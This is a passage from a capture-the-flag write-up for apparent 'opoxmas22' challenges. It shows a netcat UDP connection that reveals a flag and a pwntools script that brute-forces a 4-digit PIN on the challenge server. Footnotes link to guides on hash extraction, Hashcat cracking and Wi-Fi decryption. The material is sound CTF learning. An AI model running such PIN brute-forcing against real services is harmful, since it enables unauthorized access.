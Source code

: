 So, again, RFC 768 describes User Datagram Protocol (UDP). Something familiar now! Let's connect!

```bash
$ nc -u  opoxmas22.armysi.cc 443
a
}eep_eed_uoy{galf
```

**Flag**: `flag{you_dee_pee}`

### Who’s There? (200 pts)

> I do not have a physical body, but I am here to help you with any questions you may have, give me a PIN, and I will tell you what to do next!
>
> opoxmas22.example.com (22222) looks interesting!

We have a UDP based service that requests a PIN (let's assume a 4 digit pin). So 10 000 possible combinations... Easy enough to do a script (with some timeout and retry logic because sometimes things went wrong).

```python
from itertools import product
from pwn import *
encoding = 'utf-8'
# your list needs be all-characters
lst = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9']
a = ["".join(item) for item in product(lst, repeat=4)]

r = remote('opoxmas22.armysi.cc', 22222, typ="udp", timeout=1)
i = 0
while True:
    r.send(bytearray(a[i]+"\n", encoding))
    res = str(r.recv(timeout=2), encoding)
    if res == "":
        r.close()
        r = remote('opoxmas22.armysi.cc', 22222, typ="udp")
        r.send(bytearray(a[i]+"\n", encoding))
        res = str(r.recv(timeout=2), encoding)
        print(a[i], res)
    if res != "WRONG PIN!":
        print("PIN:", a[i], "\n>", res)
        while True:
            new_result = re.findall('[0-9]+', res)
            print(new_result)
            if(len(new_result) != 3):
                exit()
            r = remote('opoxmas22.armysi.cc', new_result[0], typ="udp")
            r.send(bytearray(new_result[2]+"\n", encoding))
            res = str(r.recv(timeout=2), encoding)
            print(">", res)

    i += 1
# interactive mode
r.close()
# r.interactive()
```


[^1]: [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)
[^2]: [Colabcat: Run Hashcat on Google Colab with session restore capabilities with Google Drive](https://github.com/someshkar/colabcat)
[^3]: [How to decrypt wifi traffic wireshark](https://kalitut.com/decrypt-wi-fi-traffic-wireshark/)